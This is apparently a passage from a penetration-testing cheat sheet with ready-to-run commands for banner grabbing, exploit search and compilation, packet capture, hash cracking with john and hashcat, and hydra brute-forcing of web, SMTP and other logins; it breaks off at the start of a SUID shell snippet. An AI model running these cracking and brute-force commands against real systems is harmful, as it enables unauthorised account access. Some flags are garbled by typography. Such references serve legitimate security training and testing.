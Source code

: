 ### **Fingerprinting:  Basic versioning / finger printing via displayed banner**

-       nc -v 192.168.1.1 25
-       telnet 192.168.1.1 25

### **Exploit Research**

-       searchsploit windows 2003 | grep -i local
  - Search exploit-db for exploit, in this example windows 2003 + local esc

### **Compiling Exploits**

-       gcc -o exploit exploit.c
  - Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linux
-       i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
  - Compile windows .exe on Linux

### **Packet Inspection:**

-       tcpdump tcp port 80 -w output.pcap -i eth0
  - tcpdump for port 80 on interface eth0, outputs to output.pcap

# **Password Cracking**

- hash-identifier \[hash\]
- john hashes.txt
-       hashcat -m 500 -a 0 -o output.txt –remove hashes.txt /usr/share/wordlists/rockyou.txt
- hashcat -m 1000 dump.txt -o output.txt --remove -a 3 ?u?l?l?d?d?d?d

  - Brute force crack for NTLM hashes with an uppercase, lowercase, lowercase, and 4 digit mask

- List of hash types and examples for hashcat [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [https://hashkiller.co.uk](https://hashkiller.co.uk) has a good repo of already cracked MD5 and NTLM hashes

### **Bruteforcing:**

-       hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin
-       hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt IPADDR PROTOCOL
-       hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp –V
  - Hydra SMTP Brute force

## **Shells & Reverse Shells**

### **SUID C Shells**

- bin/bash:

int main(void){
